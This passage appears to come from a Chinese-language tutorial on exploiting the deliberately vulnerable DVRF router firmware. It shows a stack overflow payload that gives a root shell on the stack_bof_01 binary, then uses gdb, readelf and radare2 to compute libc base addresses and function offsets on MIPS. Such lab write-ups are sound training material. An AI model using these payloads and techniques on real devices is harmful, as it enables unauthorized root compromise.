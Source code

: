 我们将相同的有效载荷放入嵌入式设备，其漏洞应该同样可以利用。

```
# cd /
# ./pwnable/Intro/stack_bof_01 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7`echo -e '\x5c\x09\x40'`"
tered Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag7      @
Try Again
Congrats! I will now execute /bin/sh
- b1ack0wl
id
uid=0(root) gid=0(root)
```

要在gdb中找到导入的库的地址，需要执行以下操作：

```
(gdb) set solib-search-path /&lt;path to&gt;/_DVRF_v03.bin.extracted/squashfs-root/lib/

(gdb) info sharedlibrary
From        To          Syms Read   Shared Object Library
0x76767b00  0x76774c20  Yes (*)     /home/b1ack0wl/DVRF/_DVRF_v03.bin.extracted/squashfs-root/lib/libgcc_s.so.1
0x766eb710  0x7671c940  Yes (*)     /home/b1ack0wl/DVRF/_DVRF_v03.bin.extracted/squashfs-root/lib/libc.so.0
0x767b9a80  0x767bd800  Yes (*)     /home/b1ack0wl/DVRF/_DVRF_v03.bin.extracted/squashfs-root/lib/ld-uClibc.so.0
```

我们将表中“From”地址减去入口点地址，即可得到基地址（Base Address）。例如，通过执行以下操作，可以找到libc.so.0的基地址：

```
b1ack0wl@b1ack0wl-VM ~/DVRF/_DVRF_v03.bin.extracted/squashfs-root/lib $ readelf -a ./libc.so.0 | more
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Shared object file)
  Machine:                           MIPS R3000
  Version:                           0x1
  Entry point address:               0x6710  // Address to subtract

```

libc.so.0 = 0x766eb710 – 0x6710 = 0x766E5000<br>
随后，我们可以利用Radare2反汇编库，并得到指令的偏移量。

```
**[Radare2]**

b1ack0wl@b1ack0wl-VM ~/DVRF/_DVRF_v03.bin.extracted/squashfs-root $ r2 ./lib/libc.so.0
 -- Remember to maintain your ~/.radare_history
[0x00006710]&gt; aaaa
[0x00006710]&gt; s sym.printf
[0x000179e0]&gt;  // This is the offset we need to add in order to get to printf

**[GDB]**

(gdb) x/10i 0x766E5000+0x000179e0
   0x766fc9e0 &lt;printf&gt;: lui gp,0x7     // Same Instructions as Radare2 (gdb values in decimal vs hex)
   0x766fc9e4 &lt;printf+4&gt;:   addiu   gp,gp,-17424
```